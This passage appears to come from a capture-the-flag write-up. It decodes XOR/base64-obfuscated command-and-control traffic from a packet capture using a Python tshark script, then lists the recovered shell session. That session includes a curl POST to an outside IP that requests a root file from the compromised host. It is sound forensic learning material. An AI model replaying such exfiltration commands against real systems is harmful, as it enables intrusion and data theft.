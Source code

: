 ```python
import subprocess
import json
import re
import base64

SHARED_KEY=73

tshark = subprocess.run(['tshark', '-r', 'capture_file.pcap', '-T', 'json'],
                        capture_output=True, text=True, check=True)
for pkt in json.loads(tshark.stdout):
    if 'http' in pkt['_source']['layers']:
        http = pkt['_source']['layers']['http']
        for req in http.keys():
            req = req.split(' ')
            if req[0] in ['GET', 'POST']:
                print('\033[1;32m'+req[0]+' \033[1;34m'+req[1]+'\033[0m ', end='')
            elif req[0].startswith('HTTP'):
                print('  \033[1;33mOK\033[0m ', end='')
        if 'http.file_data' in http:
            data = http['http.file_data'].replace(':', '')
            data = bytes.fromhex(data).decode('utf-8')
            try:
                data = json.loads(data)
                for key in ['encrypted_command', 'data']:
                    if key in data:
                        data[key] = ''.join(chr(c^SHARED_KEY) for c in base64.b64decode(data[key]))
                print(data)
            except:
                print(data)
```

With that, we can follow the conversation that happened:

```bash
$ echo hello
hello
$ hostname
2bc7bf2ba58a
$ echo "cant stop me from shitposting!"
cant stop me from shitposting!
$ echo "Monika why dont you print the excel file in A1 format?"
Monika why dont you print the excel file in A1 format?
$ curl http://172.105.87.133:8000/files -H "Content-Type: application/json" -X POST --data '{"client_id": "a483f845454b5147", "shared_key": "73", "path": "/root/requirements.txt"}'
$ touch bad.txt
$ ./rick_roll
$ exit
```

So, there is an additional `POST /files` endpoint - possibly a **very** useful one! &#128578;

# Hacking it
